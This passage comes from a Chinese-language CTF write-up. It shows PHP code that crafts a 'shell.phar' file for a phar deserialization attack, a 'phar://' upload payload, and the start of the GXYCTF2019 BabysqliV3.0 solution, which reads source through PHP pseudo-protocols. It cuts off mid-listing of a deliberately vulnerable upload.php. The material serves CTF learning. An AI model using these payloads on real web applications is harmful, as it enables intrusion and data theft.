 ```
    $a = new C1e4r();
    $a->str = $b;

    $phar = new Phar('shell.phar');
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER();?>");
    $phar->setMetadata($a);
    $phar->addFromString('shell.txt','aaa');
    $phar->stopBuffering();
    ?>
    ```
    运行完后，在当前目录会生成一个`shell.phar`文件，改一下后缀名，上传，直接去访问/upload/，找到文件名记下来

    payload: `file=phar://upload/xxxx.jpg`,得到的内容base64解码

#### GXYCTF2019 BabysqliV3.0

1. 题目分析

    进去提示sql注入，其实这道题和sql注入无关，一开始的登录是弱密码，这道题的考点是phar反序列化

    **url末尾是file=的形式，怀疑是文件包含，并且自动在xxx后面加.php。**

    所以可以用php伪协议读取源码

    upload.php
    ```php
    <?php
    error_reporting(0);
    class Uploader{
        public $Filename;
        public $cmd;
        public $token;
        

        function __construct(){
            $sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
            $ext = ".txt";
            @mkdir($sandbox, 0777, true);
            if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
                $this->Filename = $_GET['name'];
            }
            else{
                $this->Filename = $sandbox.$_SESSION['user'].$ext;
            }

            $this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
            $this->token = $_SESSION['user'];
        }

        function upload($file){
            global $sandbox;
            global $ext;

            if(preg_match("[^a-z0-9]", $this->Filename)){
                $this->cmd = "die('illegal filename!');";
            }
            else{
                if($file['size'] > 1024){
                    $this->cmd = "die('you are too big (′▽`〃)');";
                }
                else{
```